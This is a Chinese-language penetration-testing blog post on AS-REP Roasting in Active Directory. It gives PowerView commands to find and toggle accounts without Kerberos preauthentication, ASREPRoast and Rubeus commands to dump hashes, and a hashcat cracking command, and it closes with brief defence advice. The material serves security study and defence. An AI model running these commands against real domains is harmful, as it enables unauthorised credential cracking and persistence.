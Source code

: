 ```yaml
---
layout: post
title: 域渗透——AS-REPRoasting
---
```



## 0x00 前言
---

AS-REP Roasting同Kerberoasting类似，如果满足条件，就能够获得用户口令的hash，再结合hashcat进行破解，最后能够还原出用户的明文口令。

本文将要参考公开资料，结合自己的理解，介绍AS-REP Roasting的利用方法，最后给出防御建议。

## 0x01 简介
---

本文将要介绍以下内容：

- AS-REP Roasting的原理
- AS-REP Roasting的利用条件
- AS-REP Roasting的利用方法
- 破解hash的方法
- 防御建议

## 0x02 AS-REP Roasting
---

### 1.简介

对于域用户，如果设置了选项"Do not require Kerberos preauthentication"，此时向域控制器的88端口发送AS-REQ请求，对收到的AS-REP内容重新组合，能够拼接成"Kerberos 5 AS-REP etype 23"(18200)的格式，接下来可以使用hashcat对其破解，最终获得该用户的明文口令

### 2.利用前提

域用户设置了选项"Do not require Kerberos preauthentication"

通常情况下，该选项默认不会开启

### 3.利用思路

通常在域渗透中用来维持权限

需要先获得对指定用户的GenericWrite权限，利用思路如下：

1. 开启用户选项"Do not require Kerberos preauthentication"
2. 导出hash并破解
3. 关闭用户选项"Do not require Kerberos preauthentication"

## 0x03 AS-REP Roasting的利用方法
---

### 1.寻找满足条件的用户

用户需要开启选项"Do not require Kerberos preauthentication"

这里可以使用LDAP查询满足条件(userAccountControl:1.2.840.113556.1.4.803:=4194304)的用户

参考资料：

https://support.microsoft.com/en-us/help/305144/how-to-use-useraccountcontrol-to-manipulate-user-account-properties

https://github.com/PowerShellMafia/PowerSploit/blob/445f7b2510c4553dcd9451bc4daccb20c8e67cbb/Recon/PowerView.ps1#L4769

DONT_REQ_PREAUTH项对应的值为4194304

PowerView的命令如下：

```
Import-Module .\PowerView.ps1
Get-DomainUser -PreauthNotRequired -Verbose
```

示例如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-7-18/2-1.png)

只显示distinguishedname项：

```
Import-Module .\PowerView.ps1
Get-DomainUser -PreauthNotRequired -Properties distinguishedname -Verbose
```

示例如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-7-18/2-2.png)

### 2.开启和关闭选项"Do not require Kerberos preauthentication"

开启选项意味着对用户添加属性(userAccountControl=4194304)

开启选项的命令如下：

```
Import-Module .\PowerView.ps1
Set-DomainObject -Identity testb -XOR @{userAccountControl=4194304} -Verbose
```

关闭选项意味着删除用户属性(userAccountControl=4194304)

**注：**

这里可以再次进行异或运算，两次异或相当于不改变原数值，即删除用户属性(userAccountControl)

关闭选项的命令如下：

```
Import-Module .\PowerView.ps1
Set-DomainObject -Identity testb -XOR @{userAccountControl=4194304} -Verbose
```

### 3.导出hash

#### (1)使用Powershell

https://github.com/HarmJ0y/ASREPRoast

导出所有可用用户hash的命令如下：

```
Import-Module .\ASREPRoast.ps1
Invoke-ASREPRoast -Verbose |fl
```

示例如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-7-18/3-1.png)

导出指定用户hash的命令如下：

```
Get-ASREPHash -UserName testb -Verbose
```

示例如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-7-18/3-2.png)

提取出hash：

```
$krb5asrep$testb@test.com:a128092441a3af80015554db2f3fe44e$d69b44c7d9cf36261a012d012f636a2124837af89a48ef686e1ac7572af93741fc801423443a85c9aacd6a5f85f1d840d07b09e68795ce691a818fa765674c3f25492ed49e7274d98096d599c9ff0de6e169efdb3429cde39dbdea4633580981bcb34ecf330d0cb2cb194e2944f77b8fc15c056684fee33d3ee7e0b86bc56072c3bfcd2d3abeb06bfb42144a06cf90c5c60e9c255d93d9c62bbf1cc37e75d8f6d22120bf8de673db20f108da96a9e3d9d099346fff8619f49961feeaf96c35eb1a237b42b6716012dfc08d96146eb1df65e9a66a67685c04f8ab7e21bfa36800babc1ad3
```

#### (2)使用C#(Rubeus)

https://github.com/GhostPack/Rubeus

命令如下:

```
Rubeus.exe asreproast
```

示例如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-7-18/3-3.png)

### 4.使用hashcat进行破解

提取出hash：

```
$krb5asrep$testb@test.com:a128092441a3af80015554db2f3fe44e$d69b44c7d9cf36261a012d012f636a2124837af89a48ef686e1ac7572af93741fc801423443a85c9aacd6a5f85f1d840d07b09e68795ce691a818fa765674c3f25492ed49e7274d98096d599c9ff0de6e169efdb3429cde39dbdea4633580981bcb34ecf330d0cb2cb194e2944f77b8fc15c056684fee33d3ee7e0b86bc56072c3bfcd2d3abeb06bfb42144a06cf90c5c60e9c255d93d9c62bbf1cc37e75d8f6d22120bf8de673db20f108da96a9e3d9d099346fff8619f49961feeaf96c35eb1a237b42b6716012dfc08d96146eb1df65e9a66a67685c04f8ab7e21bfa36800babc1ad3
```

拼接成hashcat能够识别的格式需要在`$krb5asrep`后面添加`$23`

hashcat使用字典破解的参数如下：

```
hashcat -m 18200 '$krb5asrep$23$testb@test.com:a128092441a3af80015554db2f3fe44e$d69b44c7d9cf36261a012d012f636a2124837af89a48ef686e1ac7572af93741fc801423443a85c9aacd6a5f85f1d840d07b09e68795ce691a818fa765674c3f25492ed49e7274d98096d599c9ff0de6e169efdb3429cde39dbdea4633580981bcb34ecf330d0cb2cb194e2944f77b8fc15c056684fee33d3ee7e0b86bc56072c3bfcd2d3abeb06bfb42144a06cf90c5c60e9c255d93d9c62bbf1cc37e75d8f6d22120bf8de673db20f108da96a9e3d9d099346fff8619f49961feeaf96c35eb1a237b42b6716012dfc08d96146eb1df65e9a66a67685c04f8ab7e21bfa36800babc1ad3' /usr/share/john/password.lst -o found.txt --force
```

参数说明：

`/usr/share/john/password.lst`为字典文件的位置
`-o found.txt`表示输出结果的位置

## 0x04 防御建议
---

1.确保域名不存在开启"Do not require Kerberos preauthentication"的用户

扫描方法(使用PowerView)：

```
Import-Module .\PowerView.ps1
Get-DomainUser -PreauthNotRequired -Verbose
```

2.域用户强制使用复杂口令，提高被字典和暴力破解的难度

## 0x05 小结
---

本文介绍了AS-REP Roasting在域渗透中的利用条件和方法，给出防御建议


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)





